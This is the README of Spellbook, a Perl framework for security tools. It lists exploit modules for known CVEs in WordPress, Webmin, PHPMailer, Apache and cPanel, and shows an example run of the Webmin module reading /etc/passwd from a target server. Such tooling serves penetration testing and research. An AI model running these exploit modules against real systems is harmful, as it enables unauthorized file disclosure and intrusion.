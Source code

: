 <p align="center">
  <img src="https://heitorgouvea.me/images/projects/spellbook/logo.png" width="120px" height="120px">
  <h3 align="center"><b>Spellbook</b></h3>
  <p align="center">A framework for rapid development of reusable security tools</p>
  <p align="center">
    <a href="https://github.com/htrgouvea/spellbook/blob/master/LICENSE.md">
      <img src="https://img.shields.io/badge/license-MIT-blue.svg">
    </a>
    <a href="https://github.com/htrgouvea/spellbook/releases">
      <img src="https://img.shields.io/badge/version-0.3.3-blue.svg">
    </a>
      <br/>
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/linter.yml/badge.svg">
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/zarn.yml/badge.svg">
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/security-gate.yml/badge.svg">
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/test-on-ubuntu.yml/badge.svg">
  </p>
</p>

---

### Summary

Spellbook uses FBP: "In computer programming, flow-based programming (FBP) is a programming paradigm that defines applications as networks of "black box" processes, which exchange data across predefined connections by message passing, where the connections are specified externally to the processes. These black box processes can be reconnected endlessly to form different applications without having to be changed internally. FBP is thus naturally component-oriented." [[1]](https://en.wikipedia.org/wiki/Flow-based_programming)

The main focus of this “micro-framework” is turn in reality the rapid development of security tools using reusable patterns of FBP. 

"Third clark law: any sufficiently advanced technology is indistinguishable from magic" - that's why this project is called spellbook.

---

### Download and install

```bash
# Download
$ git clone https://github.com/htrgouvea/spellbook && cd spellbook

# Install libs and dependencies
$ cpanm --installdeps .
```

---

### How to use

```
Spellbook v0.3.3
Core Commands
==============
	Command          Description
	-------          -----------
	-s, --search     List modules, you can filter by category
	-m, --module     Set a module to use
	-h, --help       To see help menu of a module
```

### Example

```
# Searching for exploits 
$ ./spellbook.pl --search advisory

Module: Advisory::CVE_2017_5487
Description: Read usernames leaked on WordPress API
=================================================

Module: Advisory::CVE_2006_3392
Description: Read arbitrary files for servers running Webmin before 1.290 and Usermin before 1.220
=================================================

Module: Advisory::CVE_2016_10045
Description: PHPMailer < 5.2.20 Remote Code Execution PoC 0day Exploit (CVE-2016-10045) (Bypass of the CVE-2016-1033 patch)
=================================================

Module: Advisory::CVE_2021_41773
Description: Exploit path Traversal or RCE in Apache HTTP Server 2.4
=================================================

Module: Advisory::CVE_2023_29489
Description: Exploit for cPanel Reflected XSS - CVE-2023-29489
=================================================
[...]
```

```
# Using an exploit
$ perl spellbook.pl -m Advisory::CVE_2006_3392 --help

Advisory::CVE_2006_3392
=======================
-h, --help     See this menu
-t, --target   Define a target
-f, --file     Define a file to read
```

```
$ perl spellbook.pl -m Advisory::CVE_2006_3392 -t http://172.30.0.15:10000/ -f /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
[...]
```

If you are interested in developing new modules, a good start point is to read the [development guide](/wiki/Developer-Guide).

---

### Docker container

```
$ docker build -t spellbook .
$ docker run -ti --rm spellbook --search exploits
```

---

### Contribution

Your contributions and suggestions are heartily ♥ welcome. [See here the contribution guidelines.](/.github/CONTRIBUTING.md) Please, report bugs via [issues page](https://github.com/htrgouvea/spellbook/issues) and for security issues, see here the [security policy.](/SECURITY.md) (✿ ◕‿◕)

---

### License

This work is licensed under [MIT License.](/LICENSE.md)
